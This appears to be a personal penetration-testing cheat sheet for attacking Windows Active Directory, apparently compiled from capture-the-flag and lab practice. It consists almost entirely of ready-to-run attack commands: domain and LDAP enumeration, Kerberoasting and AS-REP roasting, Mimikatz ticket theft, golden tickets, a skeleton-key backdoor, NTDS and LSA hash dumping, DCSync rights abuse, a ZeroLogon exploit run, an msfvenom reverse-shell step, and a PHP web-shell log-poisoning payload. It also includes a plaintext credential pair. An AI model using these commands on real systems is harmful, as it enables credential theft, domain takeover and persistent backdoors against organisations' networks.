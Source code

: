 Domain Enumeration::
	
	
















Local Privilege Escalation::



















Domain Persistence::



















Domain Privilege Escalation::



















Detection and Defense::



















More::

		
		net user /domain -> which users are in the domain
		net user <user> /dom -> enumerate which groups, etc. the user is connected to
		net group /dom -> enumerate groups in the domain
		

	Enumeration:

		setspn -T medin -Q ​ */*   ->   extract accounts SPNs
		rpcclient -U '' -N <IP>
			enumdomusers
			querygroupmem <rid>
			queryuser <rid>
		ldapsearch -h 10.10.10.182 -x -s base namingcontexts  ->  get dc name
		ldapsearch -h 10.129.95.210 -x -b "DC=htb, DC=local" '(ObjectClass=Person)' sAMAccountName | grep sAMAccountName  ->  enumerate users
		ldapsearch -h 10.129.189.140 -x -b "DC=cascade, DC=local" '(ObjectClass=Person)' sAMAccountName | grep sAMAccountName | cut -d ":" -f 2 | cut -d " " -f 2 > /root/Desktop/userlst.txt  ->  put usernames straight to user list file
		ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=person)' > ldap-people ->  if nothing found, go through users, maybe legacypwd?
		ldapsearch -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -o ldif-wrap=no -b 'dc=hutch,dc=offsec' -h hutch.pg "(ms-MCS-AdmPwd=*)" ms-Mcs-AdmPwd  ->  query LAPS password
		showmount -e <IP> -> enumerate NFS
		mount <IP>:/<dir> /mnt/<dir>
		kerbrute userenum --dc <DOMAIN> -d <DOMAIN> user.txt  -> enumerate users
		GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request     ->  try to get hash (can try without password)
		impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -usersfile userlst.txt -format hashcat -outputfile hash  ->  brute usernames 
		smbclient -U spookysec.local/svc-admin //10.10.104.142/backup  -> list shares with password
	    secretsdump.py -dc-ip <IP> <DOMAIN>.local/<USER>:<PASSWORD>@<IP>    ->    dump NTDS.dit
	    crackmapexec winrm -u <USERFILE/USERNAME> -p <PASS/PASSFILE>
	$ python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL
	    PowerView:
	    	powershell -ep bypass
	    	. .\PowerView.ps1
	    	Get-NetUser | select cn  ->  Enumerate the domain users
	    	Get-NetGroup -GroupName  ->  Enumerate the domain groups
	    	Get-NetComputer -fulldata | select operatingsystem
	    	Invoke-ShareFinder
	
	    BloodHound:
	    	powershell -ep bypass
	    	. .\SharpHound.ps1
	    	Invoke-Bloodhound -CollectionMethod All -Domain <DOMAIN> -ZipFileName loot.zip
	    	scp loot.zip remote_username@<IP>:/remote/directory
	    	neo4j
	    	bloodhound
	    	upload loot.zip to bloodhound
	    	query away


	Kerberoasting:

		Rubeus.exe kerberoast
		sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.179.108 -request
			
			hashcat -m 13100 -a 0 hash.txt Pass.txt
	AS-REP Roasting:

		Rubeus.exe asreproast
			hashcat -m 18200 hash.txt Pass.txt    ->  Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....


	Mimikatz - Pass the ticket:

		1. run mimikatz.exe
		2. privilege::debug -> 20 OK (If not 20, no admin privs)
		3. sekurlsa::tickets /export  ->  export all of the .kirbi tickets into the directory that you are currently in
		4. look for krbtgt ticket, Administrator user optimally
		5. kerberos::ptt <ticket>  ->  impersonate
		6. klist  ->  verify impersonation

	Golden/Silver Ticket:

		1. run mimikatz.exe
		2. privilege::debug
		3. lsadump::lsa /inject /name:krbtgt  ->  dump all the hashes and security identifiers to make tickets
		4. Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:  ->  This is the command for creating a golden ticket to create a silver ticket 	simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.
		5. misc::cmd  -> open a new elevated command prompt with the given ticket in mimikatz

		**6. Access other machines!:

			PsExec.exe \\<HOSTNAME> cmd.exe


	Kerberos Skeleton Key (Backdoor):

		1. run mimikatz.exe
		2. privilege::debug
		3. misc::skeleton

			net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
			dir \\Desktop-1\c$ /user:Machine1 mimikatz


	Mimikatz - Hash Dumping:

		privilege::debug
		lsadump::lsa /patch
		hashcat -m 1000 <hash> rockyou.txt



	Empire:

		Invoke-Kerberoast -OutputFormat hashcat ​ |fl



	DCSync permissions:

	net user coffee coffee123 /add /domain
	net group <VULN GROUP> coffee /add /domain
	$SecPassword = ConvertTo-SecureString "coffee123" -AsPlainText -Force
	$Cred = New-Object System.Management.Automation.PSCredential("<domain>.local\coffee", $SecPassword)
	Import-Module .\PowerView.ps1
	Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity coffee -Rights DCSync
	RUN impacket-secretsdump


	ZeroLogon:

	Download exploit -> https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py
	zero.py <DC NAME> <DC IP>
	impacket-secretsdump -dc-ip 172.31.1.29 -no-pass -just-dc  zero/'zero-dc$'@172.31.1.29
	psexec/evil-winrm...


	
	AlwaysInstallElevated:
		
		- Create msfvenom reverse shell with a msi extension
		- Run .msi file
		- :)

	LFI to RCE - SMTP Log poison:
		
		telnet <ip> 25
		MAIL FROM: <doesntmatter>
		RCPT TO: <user>
		data
		<?php system($_GET['c']); ?>
		.
		
		browse to /var/mail/user&c=<command>
